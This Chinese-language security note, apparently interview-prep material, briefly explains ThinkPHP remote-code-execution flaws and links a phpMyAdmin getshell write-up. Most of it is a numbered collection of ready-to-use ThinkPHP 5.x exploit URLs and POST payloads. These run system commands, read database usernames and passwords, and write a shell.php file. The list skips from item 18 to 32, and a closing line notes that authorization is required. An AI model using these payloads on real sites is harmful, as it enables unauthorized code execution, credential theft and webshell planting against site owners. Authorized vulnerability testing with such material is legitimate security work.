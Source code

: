 **thinkphp rce漏洞**：比如5.0版本有个rce漏洞，该漏洞的漏洞关键点存在于thinkphp/library/think/Request.php文件中
在docker中复现了多种版本的rce漏洞。

**漏洞的原理有了解吗,攻击后的返回包的有分析过吗?**
THINKPHP RCE漏洞的原理：举例有一个RCE是这样的：Dispatcher.class.php中res参数中使用了preg_replace的/e危险参数，使得preg_replace第二个参数就会被当做php代码执行，导致存在一个代码执行漏洞，攻击者可以利用构造的恶意URL执行任意PHP代码。

^
phpMyadmin漏洞：
<https://dummykitty.github.io/php/2020/11/22/phpmyadmin-%E5%90%8E%E5%8F%B0-getshell-%E5%8F%8A%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%80%9D%E8%B7%AF%E6%95%B4%E7%90%86.html#cve-2013-3238>


^
## **Thinkphp POC大全**

**Thinkphp 5.0.22 POC**
1. `http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.username`
2. `http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.password`
3. `http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id`
4. `http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`

**Thinkphp 5 POC**
5. `http://127.0.0.1/tp5/public/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1`

**Thinkphp 5.0.21 POC**
6. `http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id`
7. `http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`

**Thinkphp 5.1.* POC**
8. `http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1`
9. `http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=cmd`
10. `http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E`
11. `http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E`
12. `http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`
13. `http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd`
14. `http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`
15. `http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd`

**Thinkphp 未知版本 POC**
16. `?s=index/\think\module/action/param1/${@phpinfo()}`
17. `?s=index/\think\Module/Action/Param/${@phpinfo()}`
18. `?s=index/\think/module/aciton/param1/${@print(THINK_VERSION)}`

**Thinkphp 5.0.23 (完整版) debug模式 POC**
32. `(post)public/index.php (data)_method=__construct&filter[]=system&server[REQUEST_METHOD]=touch%20/tmp/xxx`

**Thinkphp 5.0.23 (完整版) POC**
33. `（post）public/index.php?s=captcha (data) _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls -al`

**Thinkphp 5.0.10 (完整版) POC**
34. `(post)public/index.php?s=index/index/index (data)s=whoami&_method=__construct&method&filter[]=system`

**Thinkphp 5.1.* 和 5.2.* 和 5.0.* POC**
35. `(post)public/index.php (data)c=exec&f=calc.exe&_method=filter`

请注意，这些POC（Proof of Concept，概念验证）用于测试网站是否存在远程代码执行漏洞。使用这些POC进行测试时，必须确保您有权限对目标网站进行安全测试，未经授权的测试可能违反法律。
